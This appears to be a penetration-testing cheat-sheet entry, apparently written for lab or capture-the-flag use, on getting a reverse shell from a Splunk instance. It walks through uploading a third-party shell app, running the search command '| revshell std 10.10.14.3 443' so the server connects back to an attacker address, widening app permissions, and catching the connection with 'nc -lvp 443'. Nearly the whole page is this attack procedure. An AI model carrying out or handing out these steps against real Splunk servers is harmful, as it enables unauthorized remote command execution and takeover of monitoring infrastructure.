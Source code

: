 # (8000) Splunk

<details>

<summary>Reverse Shell from Splunk</summary>

Download  [https://github.com/TBGSecurity/splunk\_shells/archive/1.2.tar.gz](https://github.com/TBGSecurity/splunk_shells/archive/1.2.tar.gz)

Click on "Search & Reporting"

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

"App: Search & Reporting" --> Manage Apps

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

"Install app from file"

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Upload "splunk\_shells-1.2.tar.gz"

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

"Restart Now"

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Go to "App: Search & Reporting" and use the command: `| revshell std 10.10.14.3 443`

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Click on "Permissions"

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Select "All apps" --> "Save"

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

nc -lvp 443

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

</details>
